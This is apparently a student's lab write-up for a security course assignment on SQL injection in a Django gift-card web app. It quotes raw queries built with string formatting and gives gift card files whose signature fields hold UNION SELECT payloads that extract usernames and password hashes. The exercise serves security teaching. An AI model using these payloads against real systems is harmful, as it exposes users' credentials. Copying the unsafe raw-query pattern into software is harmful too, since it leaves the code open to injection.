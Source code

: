 

---


## HeadingTask 3 (18pts): Structured Query Language Injection (SQLi)

***Task 3.a:**  Describe the technique(s) used to find and confirm the presence of the vulnerability. As a proof-of-concept exploit, construct an SQLi attack string that will be used as malicious input within the gift card file. Confirm the exploit works by attepting using the card within the application and retrieving the password hash for your own user account as well as the  `administrator`  user account. Include screenshots and ensure to denote the specific field/parameter that was vulnerable, along with the exact attack string used to carry out the attack. Save the malicious gift card file as  `<NetID>-sqli.gftcrd`  in the root of your repository.*

Per DJango doc, we have power to write raw queries or execute custom sql which is susceptible to SQLi attack when it is not used properly.

There are instances of raw queries being used in the views.py, this is a problem, these are used when the user uploads a card to use it. 

    card_query = Card.objects.raw('select id from LegacySite_card where data = '%s'' % signature) 
    user_cards = Card.objects.raw('select id, count(*) as count from LegacySite_card where LegacySite_card.user_id = %s' % str(request.user.id))

Original Card

    {"merchant_id": "NYU Apparel Card", "customer_id": "gip200", "total_value": 95, "records": [{"record_type": "amount_change", "amount_added": 2000, "signature": "[ insert crypto signature here ]"}]    }

With the purchased card I tried several SQL statements in the signature until I found one that works which I can send 2 queries to query seperately for the username and password in the LegacySite_user table.

    {"merchant_id": "NYU Apparel Card", "customer_id": "gip200", "total_value": 95, "records": [{"record_type": "amount_change", "amount_added": 2000, "signature": "' union SELECT username FROM LegacySite_user --"}]    }
        {"merchant_id": "NYU Apparel Card", "customer_id": "gip200", "total_value": 95, "records": [{"record_type": "amount_change", "amount_added": 2000, "signature": "' union SELECT password FROM LegacySite_user --"}]    }

Once the files/exploit queries are created they can be loaded to show the output of the exploit as shown below, that shows first the users in the first query, and then their hashed passwords in the second, thus validating the SQL injection is possible.
